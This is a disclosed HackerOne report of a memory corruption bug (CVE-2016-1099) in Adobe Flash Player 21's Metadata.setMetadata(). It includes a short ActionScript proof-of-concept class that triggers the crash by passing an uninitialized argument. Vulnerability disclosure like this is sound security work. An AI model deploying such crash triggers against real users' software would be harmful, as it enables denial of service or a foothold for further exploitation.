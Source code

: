 # Adobe Flash Player Metadata class Memory Corruption Vulnerability

## Report Details
- **Report ID**: 138517
- **URL**: https://hackerone.com/reports/138517
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-13T01:12:37.715Z
- **Disclosed**: 2019-11-12T09:42:44.291Z

## Reporter
- **Username**: hhj4ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I. Summary
Adobe Flash Player is prone to a vulnerability which leads to memory corruption because of improper validation of Metadata.setMetadata().
------------------------------------------------------------------
II. Description
Adobe Flash is a multimedia and software platform used for authoring of vector graphics, animation, games and rich Internet applications (RIAs) that can be viewed, played and executed in Adobe Flash Player. 

Normally, setMetadata() should validates its parameter and returns error in AS3 level if anything goes wrong.
If setMetadata() function is invoked directly with invalid parameter, some inner class instance will be absent, which will cause a memory crash.

POC Source Code:

package
{
	import com.adobe.tvsdk.mediacore.metadata.Metadata;	
	import flash.display.Sprite;
	
	public class poc extends Sprite
	{
		public function poc()
		{
			var mt:Metadata;
			new Metadata().setMetadata("test",mt);
		}
	}
}

Latest version of Adobe Flash Player has been tested under Windows 7 x64.
------------------------------------------------------------------
III. Impact
Memory Corruption
------------------------------------------------------------------
IV. Affected
Adobe Flash Player 21.
------------------------------------------------------------------
V. Credit
Wen Guanxing from Pangu LAB is credited for this vulnerability.

It has been assigned as CVE-2016-1099 by Adobe:
https://helpx.adobe.com/security/products/flash-player/apsb16-15.html

## Attachments
- poc.swf
